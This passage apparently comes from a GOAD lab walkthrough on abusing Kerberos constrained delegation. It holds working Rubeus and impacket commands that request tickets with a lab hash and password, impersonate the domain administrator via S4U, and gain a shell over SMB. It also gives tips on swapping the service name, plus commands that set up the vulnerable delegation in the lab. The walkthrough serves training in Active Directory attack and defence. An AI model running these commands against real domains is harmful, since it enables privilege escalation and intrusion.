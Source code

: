 - From windows with Rubeus:

```powershell
.\Rubeus.exe asktgt /user:jon.snow /domain:north.sevenkingdoms.local /rc4:B8D76E56E9DAC90539AFF05E3CCB1755
.\Rubeus.exe s4u /ticket:put_the__previous_ticket_here /impersonateuser:administrator /msdsspn:CIFS/winterfell /ptt
```

- From linux with impacket:

```bash
getST.py -spn 'CIFS/winterfell' -impersonate Administrator -dc-ip '192.168.56.11' 'north.sevenkingdoms.local/jon.snow:iknownothing'
```

- And next we can use the TGS to connect to smb and get a shell with psexec, smbexec, wmiexec, ...

![delegation_constrained_any_linux.png](/assets/blog/GOAD/delegation_constrained_any_linux.png)

> A good thing to know is that the SPN part is not encrypted in the request, so you can change it to the one you want with the following options :
> - on rubeus : /altservice
> - on impacket : -altservice
{: .prompt-tip }


> SPN lists
> Carlos Polop (hacktricks), give a us a useful list of the common SPN and usage on his [silver ticket page](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket#available-services)
{: .prompt-info }


### Without protocol transition

- The constrained delegation with protocol transition was not present originally in the lab, but you can add it with the following commands :

```bash
sudo docker run -ti --rm --network host -h goadansible -v $(pwd):/goad -w /goad/ansible goadansible ansible-playbook vulnerabilities.yml -l dc02 --tags "data,constrained_delegation_kerb"
```

- Or you could add it by hand with the powershell commands :

```powershell
Set-ADComputer -Identity "castelblack$" -ServicePrincipalNames @{Add='HTTP/winterfell.north.sevenkingdoms.local'}
Set-ADComputer -Identity "castelblack$" -Add @{'msDS-AllowedToDelegateTo'=@('HTTP/winterfell.north.sevenkingdoms.local','HTTP/winterfell')}
```
